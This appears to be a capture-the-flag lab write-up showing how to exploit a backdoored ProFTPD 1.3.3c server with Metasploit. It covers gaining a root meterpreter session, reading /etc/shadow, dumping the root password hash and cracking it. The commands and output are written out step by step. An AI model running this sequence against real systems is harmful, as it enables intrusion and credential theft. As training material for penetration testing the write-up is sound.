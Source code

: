 # 🔬Hashes Dumping

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.75.64.3`
> * **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
nmap -sV 192.87.153.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-22 03:52 UTC
Nmap scan report for target-1 (192.87.153.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

* &#x20;A proftpd 1.3.3c server is discovered running on the target machine. Run nmap vuln script to identify the vulnerability.

```bash
nmap -sV --script vuln -p 21 192.87.153.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
|_sslv2-drown: 
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

> The target proftpd installation has been running a backdoored vers&#x20;

```bash
searchsploit proftpd 1.3.3
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
service postgresql start && msfconsole -q
msf5 > search proftpd
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Start a metasploit framework and exploit proftpd server using `exploit/unix/ftp/proftpd_133c_backdoor` module.

```bash
msf5 > setg RHOSTS 192.87.153.3
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions # check available sessions
sessions 2
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hashes Dumping <a href="#hashes-dumping" id="hashes-dumping"></a>

```bash
meterpreter > cat /etc/shadow
    root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Gather Linux Password hashes with `Metasploit`

```bash
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > options
msf5 post(linux/gather/hashdump) > sessions 
msf5 post(linux/gather/hashdump) > set SESSION 2
msf5 post(linux/gather/hashdump) > run
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240722041512_default_192.87.153.3_linux.hashes_562294.txt
[*] Post module execution completed
```

* The _unshadowed password file_ is a file containing the format hashed password, ready to be cracked.

### Crack the Hash <a href="#crack-the-hash" id="crack-the-hash"></a>

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `password`
{% endhint %}
